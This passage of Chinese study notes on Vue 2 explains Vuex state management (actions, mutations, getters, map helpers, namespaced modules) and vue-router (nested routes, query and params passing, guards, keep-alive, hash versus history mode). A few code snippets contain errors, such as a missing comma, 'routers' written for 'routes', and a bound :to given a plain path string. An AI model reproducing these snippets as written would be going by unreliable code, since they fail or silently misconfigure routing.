#### 3.搭建vuex环境

1. 创建文件：```src/store/index.js```

   ```js
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //应用Vuex插件
   Vue.use(Vuex)
   
   //准备actions对象——响应组件中用户的动作
   const actions = {}
   //准备mutations对象——修改state中的数据
   const mutations = {}
   //准备state对象——保存具体的数据
   const state = {}
   
   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state
   })
   ```

2. 在```main.js```中创建vm时传入```store```配置项

   ```js
   ......
   //引入store
   import store from './store'
   ......
   
   //创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App),
   	store
   })
   ```

####    4.基本使用

1. 初始化数据、配置```actions```、配置```mutations```，操作文件```store.js```

   ```js
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //引用Vuex
   Vue.use(Vuex)
   
   const actions = {
       //响应组件中加的动作
   	jia(context,value){
   		// console.log('actions中的jia被调用了',miniStore,value)
   		context.commit('JIA',value)
   	},
   }
   
   const mutations = {
       //执行加
   	JIA(state,value){
   		// console.log('mutations中的JIA被调用了',state,value)
   		state.sum += value
   	}
   }
   
   //初始化数据
   const state = {
      sum:0
   }
   
   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state,
   })
   ```

2. 组件中读取vuex中的数据：```$store.state.sum```

3. 组件中修改vuex中的数据：```$store.dispatch('action中的方法名',数据)``` 或 ```$store.commit('mutations中的方法名',数据)```

   >  备注：若没有网络请求或其他业务逻辑，组件中也可以越过 actions，即不写```dispatch```，直接编写```commit```

#### 5.getters 的使用

1. 概念：当 state 中的数据需要经过加工后再使用时，可以使用 getters 加工。

2. 在```store.js```中追加```getters```配置

   ```js
   ......
   
   const getters = {
   	bigSum(state){
   		return state.sum * 10
   	}
   }
   
   //创建并暴露store
   export default new Vuex.Store({
   	......
   	getters
   })
   ```

3. 组件中读取数据：```$store.getters.bigSum```

#### 6.四个 map 方法的使用

1. <strong>mapState 方法：</strong>用于帮助我们映射```state```中的数据为计算属性

   ```js
   computed: {
       //借助mapState生成计算属性：sum、school、subject（对象写法）
        ...mapState({sum:'sum',school:'school',subject:'subject'}),
            
       //借助mapState生成计算属性：sum、school、subject（数组写法）
       ...mapState(['sum','school','subject']),
   },
   ```

2. <strong>mapGetters 方法：</strong>用于帮助我们映射```getters```中的数据为计算属性

   ```js
   computed: {
       //借助mapGetters生成计算属性：bigSum（对象写法）
       ...mapGetters({bigSum:'bigSum'}),
   
       //借助mapGetters生成计算属性：bigSum（数组写法）
       ...mapGetters(['bigSum'])
   },
   ```

3. <strong>mapActions 方法：</strong>用于帮助我们生成与```actions```对话的方法，即：包含```$store.dispatch(xxx)```的函数

   ```js
   methods:{
       //靠mapActions生成：incrementOdd、incrementWait（对象形式）
       ...mapActions({incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   
       //靠mapActions生成：incrementOdd、incrementWait（数组形式）
       ...mapActions(['jiaOdd','jiaWait'])
   }
   ```

4. <strong>mapMutations 方法：</strong>用于帮助我们生成与```mutations```对话的方法，即：包含```$store.commit(xxx)```的函数

   ```js
   methods:{
       //靠mapActions生成：increment、decrement（对象形式）
       ...mapMutations({increment:'JIA',decrement:'JIAN'}),
       
       //靠mapMutations生成：JIA、JIAN（对象形式）
       ...mapMutations(['JIA','JIAN']),
   }
   ```

> 备注：mapActions 与 mapMutations 使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是事件对象。

#### 7.模块化+命名空间

1. **目的**：让代码更好维护，让多种数据分类更加明确。

2. 修改```store.js```

   ```javascript
   const countAbout = {
     namespaced:true,//开启命名空间
     state:{x:1},
     mutations: { ... },
     actions: { ... },
     getters: {
       bigSum(state){
          return state.sum * 10
       }
     }
   }
   
   const personAbout = {
     namespaced:true,//开启命名空间
     state:{ ... },
     mutations: { ... },
     actions: { ... }
   }
   
   const store = new Vuex.Store({
     modules: {
       countAbout,
       personAbout
     }
   })
   ```

3. 开启命名空间后，组件中读取 state 数据：

   ```js
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取：
   ...mapState('countAbout',['sum','school','subject']),
   ```

4. 开启命名空间后，组件中读取 getters 数据：

   ```js
   //方式一：自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二：借助mapGetters读取：
   ...mapGetters('countAbout',['bigSum'])
   ```

5. 开启命名空间后，组件中调用 dispatch

   ```js
   //方式一：自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二：借助mapActions：
   ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   ```

6. 开启命名空间后，组件中调用 commit

   ```js
   //方式一：自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二：借助mapMutations：
   ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
   ```

# 第六章 vue-router

## 6.1 相关理解

### 6.1.1 vue-router 的理解

vue 的一个插件库，专门用来实现 ==SPA 应用==

### 6.1.2 对 SPA 应用的理解

1. 单页 Web 应用（single page web application，SPA）。
2. 整个应用==只有一个完整的页面==。
3. 点击页面中的导航链接==不会刷新==页面，只会做页面的==局部更新==。
4. 数据需要通过 ajax 请求获取。

### 6.1.3 路由的理解

1. 什么是路由?
   1. 一个路由就是一组映射关系（key - value）
   2. key 为路径, value 可能是 function 或 component
2. 路由分类
   1. 后端路由：
      1) 理解：value 是 function, 用于处理客户端提交的请求。
      2) 工作过程：服务器接收到一个请求时, 根据请求路径找到匹配的函数来处理请求, 返回响应数据。
   2. 前端路由：
      1) 理解：value 是 component，用于展示页面内容。
      2) 工作过程：当浏览器的路径改变时, 对应的组件就会显示。

## 6.2 基本路由

### 6.2.1 总结: 编写使用路由的 3 步

1. 定义路由组件
2. 注册路由
3. 使用路由

## 6.3 嵌套（多级）路由

## 6.4 路由传参

## 6.5 编程式路由导航

**相关 API**：

1. `this.$router.push(path)`: 相当于点击路由链接(可以返回到当前路由界面)
2. `this.$router.replace(path)`: 用新路由替换当前路由(不可以返回到当前路由界面)
3. `this.$router.back()`: 请求(返回)上一个记录路由
4. `this.$router.go(-1)`: 请求(返回)上一个记录路由
5. `this.$router.go(1)`: 请求下一个记录路由

### 路由总结

1. 理解： 一个路由（route）就是一组映射关系（key - value），多个路由需要路由器（router）进行管理。
2. 前端路由：key 是路径，value 是组件。

#### 1.基本使用

1. 安装 vue-router，命令：```npm i vue-router```

2. 应用插件：```Vue.use(VueRouter)```

3. 编写 `router` 配置项:

   ```js
   //引入VueRouter
   import VueRouter from 'vue-router'
   //引入Luyou 组件
   import About from '../components/About'
   import Home from '../components/Home'
   
   //创建router实例对象，去管理一组一组的路由规则
   const router = new VueRouter({
   	routes:[
   		{
   			path:'/about',
   			component:About
   		},
   		{
   			path:'/home',
   			component:Home
   		}
   	]
   })
   
   //暴露router
   export default router
   ```

4. 实现切换（`active-class` 可配置高亮样式）

   ```vue
   <router-link active-class="active" to="/about">About</router-link>
   ```

5. 指定展示位置

   ```vue
   <router-view></router-view>
   ```

#### 2.几个注意点

1. **路由组件**通常存放在```pages```文件夹，**一般组件**通常存放在```components```文件夹。
2. 通过切换，“隐藏”了的路由组件，默认是**被销毁**掉的，需要的时候再去挂载。
3. ==每个组件都有自己的```$route```属性，里面存储着自己的路由信息==。
4. ==**整个应用只有一个 router**，可以通过组件的```$router```属性获取到==。

#### 3.嵌套路由（多级路由）

1. 配置路由规则，使用 `children` 配置项：

   ```js
   routes:[
   	{
   		path:'/about',
   		component:About,
   	},
   	{
   		path:'/home',
   		component:Home,
   		children:[ //通过children配置子级路由
   			{
   				path:'news', //此处一定不要写：/news
   				component:News
   			},
   			{
   				path:'message',//此处一定不要写：/message
   				component:Message
   			}
   		]
   	}
   ]
   ```

2. 跳转（**要写完整路径**）：

   ```vue
   <router-link to="/home/news">News</router-link>
   ```

#### 4.路由的 query 参数

1. 传递参数

   ```vue
   <!-- 跳转并携带query参数，to的字符串写法 -->
   <router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>
   				
   <!-- 跳转并携带query参数，to的对象写法 -->
   <router-link 
   	:to="{
   		path:'/home/message/detail',
   		query:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

2. 接收参数：

   ```js
   $route.query.id
   $route.query.title
   ```

#### 5.命名路由

1. **作用**：==可以简化路由的跳转==。

2. 如何使用

   1. 给路由命名：

      ```js
      {
      	path:'/demo',
      	component:Demo,
      	children:[
      		{
      			path:'test',
      			component:Test,
      			children:[
      				{
                            name:'hello' //给路由命名
      					path:'welcome',
      					component:Hello,
      				}
      			]
      		}
      	]
      }
      ```

   2. 简化跳转：

      ```vue
      <!--简化前，需要写完整的路径 -->
      <router-link to="/demo/test/welcome">跳转</router-link>
      
      <!--简化后，直接通过名字跳转 -->
      <router-link :to="{name:'hello'}">跳转</router-link>
      
      <!--简化写法配合传递参数 -->
      <router-link 
      	:to="{
      		name:'hello',
      		query:{
      		   id:666,
                  title:'你好'
      		}
      	}"
      >跳转</router-link>
      ```

#### 6.路由的 params 参数

1. 配置路由，声明接收 `params` 参数

   ```js
   {
   	path:'/home',
   	component:Home,
   	children:[
   		{
   			path:'news',
   			component:News
   		},
   		{
   			component:Message,
   			children:[
   				{
   					name:'xiangqing',
   					path:'detail/:id/:title', //使用占位符声明接收params参数
   					component:Detail
   				}
   			]
   		}
   	]
   }
   ```

2. 传递参数

   ```vue
   <!-- 跳转并携带params参数，to的字符串写法 -->
   <router-link :to="/home/message/detail/666/你好">跳转</router-link>
   				
   <!-- 跳转并携带params参数，to的对象写法 -->
   <router-link 
   	:to="{
   		name:'xiangqing',
   		params:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

   > 特别注意：路由携带 params 参数时，若使用 to 的对象写法，则不能使用 path 配置项，必须使用 name 配置！

3. 接收参数：

   ```js
   $route.params.id
   $route.params.title
   ```

#### 7.路由的 props 配置

​	**作用**：==让路由组件更方便的收到参数==

```js
{
	name:'xiangqing',
	path:'detail/:id',
	component:Detail,

	//第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件
	// props:{a:900}

	//第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件
	// props:true
	
	//第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
	props($route){
		return {
			id:$route.query.id,
			title:$route.query.title
		}
	}
}
```

#### 8.```<router-link>```的 `replace` 属性

1. **作用**：==控制路由跳转时操作浏览器历史记录的模式==
2. 浏览器的历史记录有两种写入方式：分别为```push```和```replace```，```push```是追加历史记录，```replace```是替换当前记录。路由跳转时候默认为```push```
3. 如何开启```replace```模式：```<router-link replace .......>News</router-link>```

#### 9.编程式路由导航

1. **作用**：==不借助```<router-link> ```实现路由跳转，让路由跳转更加灵活==

2. 具体编码：

   ```js
   //$router的两个API
   this.$router.push({
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   
   this.$router.replace({
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   this.$router.forward() //前进
   this.$router.back() //后退
   this.$router.go() //可前进也可后退
   ```

#### 10.缓存路由组件

1. **作用**：==让不展示的路由组件保持挂载，不被销毁==。

2. 具体编码：

   ```vue
   <keep-alive include="News"> 
       <router-view></router-view>
   </keep-alive>
   ```
3. 缓存多个路由组件

	```vue
	<keep-alive :include="['News', 'Message']"> 
		<router-view></router-view>
	</keep-alive>
	```

#### 11.两个新的生命周期钩子

1. **作用**：==路由组件所独有的两个钩子，用于捕获路由组件的激活状态==。
2. 具体名字：
   1. ```activated```路由组件被激活时触发。
   2. ```deactivated```路由组件失活时触发。

#### 12.路由守卫(权限管理)

1. **作用**：==对路由进行权限控制==

2. **分类**：全局守卫、独享守卫、组件内守卫

3. **全局守卫**:

   ```js
   //全局前置守卫：初始化时执行、每次路由切换前执行
   router.beforeEach((to,from,next)=>{
   	console.log('beforeEach',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){ //权限控制的具体规则
   			next() //放行
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next() //放行
   	}
   })
   
   //全局后置守卫：初始化时执行、每次路由切换后执行
   router.afterEach((to,from)=>{
   	console.log('afterEach',to,from)
   	if(to.meta.title){ 
   		document.title = to.meta.title //修改网页的title
   	}else{
   		document.title = 'vue_test'
   	}
   })
   ```

4. **独享守卫**:

   ```js
   beforeEnter(to,from,next){
   	console.log('beforeEnter',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){
   			next()
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next()
   	}
   }
   ```

5. **组件内守卫**：

   ```js
   //进入守卫：通过路由规则，进入该组件时被调用
   beforeRouteEnter (to, from, next) {
   },
   //离开守卫：通过路由规则，离开该组件时被调用
   beforeRouteLeave (to, from, next) {
   }
   ```

#### 13.路由器的两种工作模式

1. 对于一个 url 来说，什么是 hash 值？—— ==#及其后面的内容就是 hash 值==。
2. ==hash 值不会包含在 HTTP 请求中，即：hash 值不会带给服务器==。
3. **hash 模式**：
   1. 地址中永远带着 # 号，不美观 。
   2. 若以后将地址通过第三方手机 app 分享，若 app 校验严格，则地址会被标记为不合法。
   3. 兼容性较好。
4. **history 模式**：
   1. 地址干净，美观 。
   2. 兼容性和 hash 模式相比略差。
   3. 应用部署上线时需要后端人员支持，解决刷新页面服务端 404 的问题。
		- 后端可以使用 `connect-history-api-fallback` 中间件解决 404 问题
		- 后端安装 `npm i connect-history-api-fallback`
		- 引入 `const history = require('connect-history-api-fallback')`
		- 必需在静态资源之前使用 `app.use(history())`

`/router/index.js`

```vue
const router = new VueRouter({
	mode: 'history',
	routers: []
})
```

# 第七章 Vue UI 组件库

## 7.1 移动端常用 UI 组件库

1. **Vant** [https://youzan.github.io/vant](https://youzan.github.io/vant)
2. **Cube UI** [https://didi.github.io/cube-ui](https://didi.github.io/cube-ui)
3. **Mint UI** [http://mint-ui.github.io](http://mint-ui.github.io)

## 7.2 PC 端常用 UI 组件库

1. **Element UI** [https://element.eleme.cn](https://element.eleme.cn)
2. **IView UI** [https://www.iviewui.com](https://www.iviewui.com)